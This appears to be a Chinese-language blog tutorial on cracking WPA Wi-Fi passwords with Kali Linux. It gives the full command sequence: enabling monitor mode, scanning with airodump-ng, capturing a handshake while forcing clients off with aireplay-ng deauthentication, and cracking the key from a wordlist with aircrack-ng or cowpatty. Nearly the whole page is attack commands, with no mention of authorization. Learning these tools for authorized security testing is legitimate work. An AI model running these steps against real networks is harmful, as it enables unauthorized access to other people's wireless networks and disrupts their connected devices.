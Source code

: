 ```yaml
---
layout: page
title:  "Kali linux无线网络渗透测试"
subtitle: ""
date:   2020-08-10 21:21:21 +0530
categories: ["general"]
---
```


所需工具：带监听模式的无线网卡、Kali linux虚拟机

**查看无线接口：**

```
iwconfig
```

**激活无线接口：**

```
ifconfig wlan0 up
```

**创建监听模式接口：**

```
airmon-ng start wlan0
```

如果提示先终止相关进程，则先运行：

```
airmon-ng check kill
```

再运行：

```
airmon-ng start wlan0
```

**扫描无线网络：**

```
airodump-ng wlan0mon
```

记下要渗透的AP的SSID、MAC和信道。

**抓取握手包：**

开启抓包，将包文件命名为test存入本地：

```
airodump-ng --bssid 00:00:00:00:00:D0 --channel 1 --write test wlan0mon
```

等待片刻，记下STATION栏下客户端的MAC。

在终端上新建标签，运行解除认证命令：

```
aireplay-ng -0 5 -a 00:00:00:00:00:D0 -c 00:00:00:00:00:D7 wlan0mon --ignore-negative-one
```

当先前标签右上角显示WPA handshake:时终止运行。

**破解密码：**

```
aircrack-ng -w zidian.lst test-01.cap
```

附：使用预先计算PSK来加快破解速度：

针对给定的字典名和SSID来预先计算PMK：

```
genpmk -f zidian.lst -d test2 -s "cisco"
```

生成名为test2的文件，其中包含了预先生成的PMK。

如果提示未找到命令 可先安装cowpatty：

```
apt-get install cowpatty
```

使用cowpatty破解密码：

```
cowpatty -d test2 -s "cisco" -r test-01.cap
```

